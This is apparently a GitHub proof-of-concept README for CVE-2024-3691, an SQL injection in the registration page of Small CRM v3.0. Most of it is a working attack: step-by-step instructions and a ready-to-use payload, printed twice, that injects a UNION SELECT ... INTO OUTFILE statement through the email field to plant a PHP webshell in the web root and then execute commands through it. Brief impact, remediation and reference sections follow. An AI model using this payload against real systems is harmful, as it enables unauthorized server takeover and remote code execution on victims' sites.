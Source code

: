 # CVE-2024-3691
- Exploit Author: nikhil-aniill

# Vulnerability Description

The Registration page on Small CRM v3.0 is vulnerable to SQL injection, allowing unauthorized remote code execution (RCE) via the Outfile functionality of MySQL. This vulnerability arises from inadequate input validation in the email input field, coupled with the absence of parameterized queries.

## Step by Step POC

1. Navigate to the registration page.
3. Fill out all the fields and intercept the request.
   - ![Intercepted Request](reg_req.png)
5. Send the intercepted request to the repeater.
7. Inject a SQL injection payload into the email field, observing the writing of a webshell into the filesystem for persistence mechanisms.
   - ```sql '+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#```
   - ![Payload Execution](sqli_payload.png)
9. Modify the payload to access the webshell on the server and utilize it to gain complete access to the web server.
10. Access the URL associated with the generated file, triggering a Remote Code Execution.
    - ![RCE](rce.png)

### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
## Impact

The described vulnerability and proof of concept (PoC) pose severe risks, including unauthorized access, remote code execution (RCE), system compromise.

## Remediation

Implement strict input validation, use parameterized queries, provide security training.

## Screenshots
![Affected Code](code.png)

## References
https://nvd.nist.gov/vuln/detail/CVE-2024-3691
[https://vuldb.com/?source_cve.260480](https://www.cve.org/CVERecord?id=CVE-2024-3691)
